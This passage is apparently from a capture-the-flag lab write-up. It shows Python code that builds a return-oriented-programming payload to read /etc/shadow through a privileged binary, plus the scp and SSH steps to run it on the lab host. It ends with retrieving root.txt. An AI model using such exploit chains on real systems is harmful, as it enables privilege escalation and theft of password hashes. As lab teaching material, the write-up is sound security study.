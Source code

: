 ```python
# read(4, buf, x) - the file descriptor from the
# previous fopen is almost certainly to result
# in file descriptor being 4
payload += p64(pop_rsi_pop_ret)
payload += p64(buf)
payload += p64(skip)
payload += p64(pop_rdi_ret)
payload += p64(4)
payload += p64(read)
payload += p64(ret)

# puts(buf) - display buf in stdout
payload += p64(pop_rdi_ret)
payload += p64(buf)
payload += p64(puts)
payload += p64(ret)

# exit(0)
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(exit)

# write payload to file
f = open('payload', 'wb')
f.write(payload)
f.close
```

Let's give it a shot. Generate the payload and send it to `margo` using `scp`.

```
# python exploit.py
# scp payload margo@10.10.10.139:/tmp
```

Log in to `margo`'s account via SSH and navigate to `/tmp` (that's where our payload is) and let the magic begins. We'll see if we can read `/etc/shadow`.


{% include image.html image_alt="15d31617.png" image_src="/3b69ee97-9d1e-43c2-935c-5b942b3d7310/15d31617.png" %}


Amazing. Where's the `root` password hash?


{% include image.html image_alt="ab1de2c0.png" image_src="/3b69ee97-9d1e-43c2-935c-5b942b3d7310/ab1de2c0.png" %}


I see. `root` logs in via the password-protected private key. Anyways, I'm not going to crack anything. Let's just retrieve `root.txt` and call it a day.


{% include image.html image_alt="85410364.png" image_src="/3b69ee97-9d1e-43c2-935c-5b942b3d7310/85410364.png" %}
